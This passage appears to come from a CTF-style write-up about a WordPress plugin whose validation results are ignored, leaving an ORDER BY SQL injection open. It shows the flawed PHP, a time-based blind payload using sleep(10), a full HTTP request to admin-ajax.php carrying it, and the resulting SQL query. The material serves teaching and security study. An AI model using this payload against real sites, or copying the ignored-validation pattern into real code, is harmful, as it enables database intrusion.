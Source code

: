 However, if those functions returned an error, the callback function won't do anything with it! **Effectively making this validation completely useless**:

```php
function get_link_data() {
    [...]
    validate_order($order);
    validate_order_by($orderby);
```

With that said, we can exploit the SQL injection vulnerability in the `ORDER BY` clause!

> Note: This mistake can totally happen in a real plugin. Recently I found an [unauthenticated Remote Code Execution via race condition vulnerability](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-manager/bit-file-manager-60-655-unauthenticated-remote-code-execution-via-race-condition) in [Bit File Manager](https://wordpress.org/plugins/file-manager/), which has a very similar flawed validation. ([Writeup from Wordfence](https://www.wordfence.com/blog/2024/09/20000-wordpress-sites-affected-by-remote-code-execution-vulnerability-in-bit-file-manager-wordpress-plugin/))

To exploit `ORDER BY` SQL injection vulnerability, we can have a quick Google search and find [this Stack Exchange post](https://security.stackexchange.com/questions/234539/order-by-sort-direction-is-exploitable-in-sql-injection#comment480962_234542). In that post, the author replied that payload `,(select*from(select(sleep(10)))a)` did work.

In our case, we can use that payload in either POST parameter `order` or `orderby`.

> Note: If you use the payload in `orderby`, the `,` is not needed. Otherwise, it'll cause a SQL syntax error.

Let's try that!

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

action=get_link_data&link_name=anything&order=asc&orderby=(select*from(select(sleep(10)))a)
```

**Executed SQL query:**
```sql
SELECT * FROM wp_links where link_name = 'anything' order by asc (select*from(select(sleep(10)))a)
```
